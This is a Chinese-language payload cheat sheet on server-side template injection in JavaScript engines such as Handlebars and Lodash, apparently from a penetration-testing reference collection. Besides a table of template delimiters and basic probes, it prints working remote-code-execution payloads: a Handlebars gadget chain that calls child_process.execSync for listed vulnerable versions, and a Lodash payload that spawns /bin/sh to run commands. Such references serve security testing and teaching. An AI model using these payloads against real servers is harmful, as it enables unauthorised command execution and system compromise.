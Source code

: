 # 服务器端模板注入 - JavaScript

> 服务器端模板注入（SSTI）发生在攻击者能够向服务器端模板注入恶意代码时，导致服务器执行任意命令。在JavaScript的上下文中，当使用Handlebars、EJS或Pug等服务器端模板引擎并且用户输入未经过充分清理就集成到模板中时，可能会出现SSTI漏洞。

## 概述

- [模板库](#模板库)
- [Handlebars](#handlebars)
    - [Handlebars - 基本注入](#handlebars---基本注入)
    - [Handlebars - 命令执行](#handlebars---命令执行)
- [Lodash](#lodash)
    - [Lodash - 基本注入](#lodash---基本注入)
    - [Lodash - 命令执行](#lodash---命令执行)
- [参考](#参考)

## 模板库

| 模板名称 | 负载格式 |
| -------- | ------- |
| DotJS    | `{{= }}` |
| DustJS   | `{}`     |
| EJS      | `<% %>`  |
| HandlebarsJS | `{{ }}` |
| HoganJS  | `{{ }}`  |
| Lodash   | `{{= }}` |
| MustacheJS  | `{{ }}`  |
| NunjucksJS  | `{{ }}`  |
| PugJS    | `#{}`    |
| TwigJS   | `{{ }}`  |
| UnderscoreJS | `<% %>`  |
| VelocityJS | `#=set($X="")$X` |
| VueJS    | `{{ }}`  |

## Handlebars

[官方网站](https://handlebarsjs.com/)
> Handlebars 将模板编译为 JavaScript 函数。

### Handlebars - 基本注入

```js
{{this}}
{{self}}
```

### Handlebars - 命令执行

此负载仅适用于以下版本的 Handlebars，在 [GHSA-q42p-pg8m-cqh6](https://github.com/advisories/GHSA-q42p-pg8m-cqh6) 中已修复：

- `>= 4.1.0`，`< 4.1.2`
- `>= 4.0.0`，`< 4.0.14`
- `< 3.0.7`

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

## Lodash

[官方网站](https://lodash.com/docs/4.17.15)
> 现代 JavaScript 实用工具库，提供模块化、性能和附加功能。

### Lodash - 基本注入

如何创建一个模板：

```javascript
const _ = require('lodash');
string = "{{= username}}"
const options = {
  evaluate: /\{\{(.+?)\}\}/g,
  interpolate: /\{\{=(.+?)\}\}/g,
  escape: /\{\{-(.+?)\}\}/g,
};

_.template(string, options);
```

- **string:** 模板字符串。
- **options.interpolate:** 它是一个正则表达式，指定 HTML 的 *插值* 分隔符。
- **options.evaluate:** 它是一个正则表达式，指定 HTML 的 *评估* 分隔符。
- **options.escape:** 它是一个正则表达式，指定 HTML 的 *转义* 分隔符。

为了实现RCE，模板的分隔符由 **options.evaluate** 参数决定。

```javascript
{{= _.VERSION}}
${= _.VERSION}
<%= _.VERSION %>

{{= _.templateSettings.evaluate }}
${= _.VERSION}
<%= _.VERSION %>
```

### Lodash - 命令执行

```js
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","id;ls"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

## 参考

- [利用Less.js实现远程代码执行 - Jeremy Buis - 2021年7月1日](https://web.archive.org/web/20210706135910/https://www.softwaresecured.com/exploiting-less-js/)
- [Shopify 应用中的 Handlebars 模板注入与 RCE - Mahmoud Gamal - 2019年4月4日](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)